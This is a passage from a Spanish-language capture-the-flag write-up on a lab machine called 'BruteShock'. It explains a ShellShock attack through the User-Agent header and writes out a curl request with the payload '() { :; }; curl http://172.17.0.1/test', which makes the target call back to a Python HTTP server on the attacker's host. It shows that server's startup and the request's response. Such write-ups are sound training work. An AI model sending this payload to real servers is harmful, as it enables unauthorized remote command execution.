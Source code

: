 ![image-center](/assets/images/posts/bruteshock-google-clon.png){: .align-center}

Podemos ver que nos reporta un mensaje que dice: `User-Agent almacenado en el log`, lo que nos puede ayudar en nuestra explotación al ser una posible pista


## ShellShock Attack

Este es un ataque que se lleva a cabo a través de la cabecera `User-Agent` , un bug de `bash` que permite la ejecución remota de comandos, una detección para esta máquina sería la siguiente

- Habilitaremos un servidor HTTP con `python` a modo de recibir solicitudes

~~~ bash
python3 -m http.server 80                                                      
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

Ejecutamos esta solicitud `http` para la URL `http://bruteshock.local/pruebasUltraSecretas`

~~~ bash
curl -IX GET http://bruteshock.dl/pruebasUltraSecretas/ -A "() { :; }; curl http://172.17.0.1/test" 

HTTP/1.1 200 OK
Date: Fri, 28 Mar 2025 18:18:50 GMT
Server: Apache/2.4.62 (Debian)
Vary: Accept-Encoding
Content-Length: 1873
Content-Type: text/html; charset=UTF-8
~~~
